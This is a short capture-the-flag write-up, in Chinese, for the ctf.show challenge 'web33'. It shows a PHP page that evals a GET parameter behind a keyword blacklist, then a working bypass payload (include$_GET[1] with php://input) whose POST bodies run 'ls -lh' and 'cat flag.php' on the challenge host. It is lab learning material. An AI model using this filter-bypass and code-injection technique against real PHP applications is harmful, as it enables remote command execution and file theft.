


# web33

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }

}else{
    highlight_file(__FILE__);
}
```

除了空格以外，还拦截了以下字符

```plaintext
. ' ` ; ( " 
```

可以发现，相较于上一题，多了一个双引号，只需要改变GET传参的表达式即可

```plaintext
https://3d3a6884-5f1c-4caf-bf7f-f73983c25645.challenge.ctf.show/?c=include$_GET[1]?>&1=php://input

POST: <?php system("ls -lh"); ?>
```



那么剩下的就简单了

```plaintext
https://3d3a6884-5f1c-4caf-bf7f-f73983c25645.challenge.ctf.show/?c=include$_GET[1]?>&1=php://input

POST: <?php system("cat flag.php"); ?>
```

